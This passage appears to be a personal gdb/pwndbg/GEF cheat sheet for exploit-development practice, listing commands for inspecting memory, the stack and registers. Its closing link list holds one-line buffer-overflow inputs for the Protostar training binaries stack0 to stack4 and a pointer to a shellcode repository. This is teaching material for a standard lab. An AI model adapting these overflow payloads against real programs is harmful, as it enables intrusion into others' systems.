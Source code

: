 gef> dereference <register/address>
gef> dereference <register/address> [#]
								         ^optional: number lines of memory

See whole stack (may contain elements outside of the stack)
pwndbg> telescope $rsp $rbp-$rsp
gef>  dereference $rsp $rbp-$rsp

[Examples]:
pwndbg> telescope $rsp
pwndbg> telescope 0x7fffffffde28

gef> dereference $rsp
gef> dereference 0x7fffffffde28

________________________________________________________________________
________________________________________________________________________



## See Hex

	gef> xinfo <address>  ; GEF & PWNDBG; gives info about that part of memory

	HEX
	gdb> x/10x <address>  ; see top 10 hex from that address

	gdb> x10s  <address>  ; see top 10 strings from that address
	gdb> x10i  <address>  ; see top 10 instructions from that address
	gdb> x/10u <address>  ; see top 10 usigned integers from that address
	gdb> x/10c <address>  ; see top 10 characters from that address


	HEXDUMP
	pwndbg/gef> hexdump [register/address]

________________________________________________________________________
________________________________________________________________________



## Register information
	gdb> info registers
	gef> registers			;GEF SPECIFIC (is similar to the summary at every step) !!!!!!!!!!!!
	pwndbg> reg    			;PWNDBG SPECFIFIC                                       !!!!!!!!!!!!

   See content of register
	gdb> x/s $r3			; see string in r3 register


________________________________________________________________________
________________________________________________________________________



## other userful commands


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print('A' * 77)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step